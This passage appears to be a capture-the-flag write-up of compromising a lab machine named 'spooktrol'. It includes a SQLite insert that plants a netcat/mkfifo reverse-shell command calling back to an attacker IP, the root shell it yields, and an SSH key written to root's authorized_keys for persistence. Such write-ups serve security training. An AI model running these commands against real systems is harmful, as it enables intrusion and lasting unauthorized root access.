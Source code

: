 ```
┌──(kali㉿kali)-[~/Documents/spooktrol]
└─$ sudo tcpdump -i tun0 icmp                                                                
[sudo] password for kali: 
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
13:18:02.417517 IP 10.10.11.123 > 10.10.14.8: ICMP echo request, id 1, seq 1, length 64
13:18:02.417544 IP 10.10.14.8 > 10.10.11.123: ICMP echo reply, id 1, seq 1, length 64
13:18:03.420030 IP 10.10.11.123 > 10.10.14.8: ICMP echo request, id 1, seq 2, length 64
13:18:03.420058 IP 10.10.14.8 > 10.10.11.123: ICMP echo reply, id 1, seq 2, length 64
13:18:04.421131 IP 10.10.11.123 > 10.10.14.8: ICMP echo request, id 1, seq 3, length 64
13:18:04.421156 IP 10.10.14.8 > 10.10.11.123: ICMP echo reply, id 1, seq 3, length 64

```
To get a shell on the target the tester used the following command.

```
sqlite> insert into tasks (target, status, task, arg1, arg2, result)
   ...> values ('10a6dd5dde6094059db4d23d7710ae12', '0', '1', 'rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.3 4444 >/tmp/f', '','');
```
This was also success, giving the tester a shell on the box.
```
┌──(kali㉿kali)-[~/Documents/spooktrol]
└─$ nc -lnvp 4444
listening on [any] 4444 ...
connect to [10.10.14.3] from (UNKNOWN) [10.10.11.123] 46354
/bin/sh: 0: can't access tty; job control turned off
# id
uid=0(root) gid=0(root) groups=0(root)
# hostname
spooktrol
# 

```
To get a full, interactive shell on the target, the tester, like detailed above, wrote a SSH "Public" key to the authorized_keys file.

```
# pwd
/root/.ssh
# ls -latr
total 0
-rw------- 1 root root   0 Jul  2  2021 authorized_keys
drwx------ 1 root root 172 Oct  1 22:15 ..
drwx------ 1 root root  30 Oct  1 22:44 .
# echo "ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIBazeqhvhd3+Qm29pAFW/QwKZfLkM7LCPj0xqrBkPQJ3 kali@kali" > /root/.ssh/authorized_keys
# 
```

```
┌──(kali㉿kali)-[~]
└─$ ssh -i '/home/kali/.ssh/persist' root@10.10.11.123 
Welcome to Ubuntu 20.04.3 LTS (GNU/Linux 5.4.0-77-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

0 updates can be applied immediately.


The list of available updates is more than a week old.
To check for new updates run: sudo apt update

Last login: Mon Oct 25 14:55:25 2021
```